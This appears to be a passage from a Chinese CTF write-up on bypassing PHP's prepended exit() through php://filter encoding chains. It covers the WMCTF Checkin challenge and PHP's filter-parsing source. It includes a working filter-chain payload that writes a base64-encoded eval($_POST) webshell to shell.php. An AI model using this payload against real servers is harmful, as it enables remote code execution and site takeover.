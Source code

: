 
ps：

```php
// 这里要符合base64 解码按4 字节进行

utf8 -> utf-7

<?php exit();php://filter/write=aaaaXDw/cGhwIEBldmFsKCRfUE9TVFthXSk7ID8+|convert.iconv.utf-8.utf-7|convert.base64-decode/resource=shell.php

变为：

+ADw?php exit()+ADs-php://filter/write+AD0-aaaaXDw/cGhwIEBldmFsKCRfUE9TVFthXSk7ID8+-+AHw-convert.iconv.utf-8.utf-7+AHw-convert.base64-decode/resource+AD0-shell.php

base64恶意payload的之前正好36个字节，所以写入了shell

```

![0KzrkQ.png](https://s1.ax1x.com/2020/10/01/0KzrkQ.png)


## 八、WMCTF Checkin


```php
<?php
//PHP 7.0.33 Apache/2.4.25
error_reporting(0);
$sandbox = '/var/www/html/' . md5($_SERVER['HTTP_X_REAL_IP']);
@mkdir($sandbox);
@chdir($sandbox);
highlight_file(__FILE__);
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    if(preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$content))
         die('hacker');
    if(file_exists($content))
        require_once($content);
    echo $content;
    file_put_contents($content,'<?php exit();'.$content);
}
```

死亡exit的绕过

#### 二次编码绕过

查看伪协议处理的源码

```php
static void php_stream_apply_filter_list(php_stream *stream, char *filterlist, int read_chain, int write_chain) 
{
	char *p, *token = NULL;
	php_stream_filter *temp_filter;

	p = php_strtok_r(filterlist, "|", &token);
	while (p) {
		php_url_decode(p, strlen(p));#👈对过滤器进行了一次urldecode
		if (read_chain) {
			if ((temp_filter = php_stream_filter_create(p, NULL, php_stream_is_persistent(stream)))) {
				php_stream_filter_append(&stream->readfilters, temp_filter);
			} else {
				php_error_docref(NULL, E_WARNING, "Unable to create filter (%s)", p);
```